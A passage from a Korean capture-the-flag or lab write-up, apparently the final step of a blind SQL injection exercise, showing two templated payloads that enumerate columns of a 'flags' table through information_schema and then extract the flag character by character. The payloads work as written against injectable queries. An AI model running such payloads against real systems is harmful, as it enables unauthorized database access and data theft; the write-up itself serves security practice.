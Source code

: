 이제 `flags` 테이블의 컬럼을 확인하기 위해, `information_schema.columns`를 활용한 스크립트를 작성할 것이다.

```html
33333%' Or if(ascii(substr((select column_name from infOrmation_schema.columns where table_schema='spec5' and table_name='flags' limit {j},1),{i},1))={ascii},1,0) and '1%'='1
```

![파이썬 활용 컬럼 추출 완료](/assets/web-screenshots/blind-error-based-sqli/python_column_success.png)

확인된 테이블 이름:
 - comments
 - flags
 - description
 - created_at

이제 마지막 단계로, `flags` 테이블의 컬럼에서 실제 데이터를 추출해보았다.

```html
33333%' Or if(ascii(substr((select flag from flags limit {j},1),{i},1))={ascii},1,0) and '1%'='1
```

![파이썬 활용 플래그 추출 완료](/assets/web-screenshots/blind-error-based-sqli/spec5_flag.png)

**이렇게 마지막 문제까지 모두 마무리 했다.**

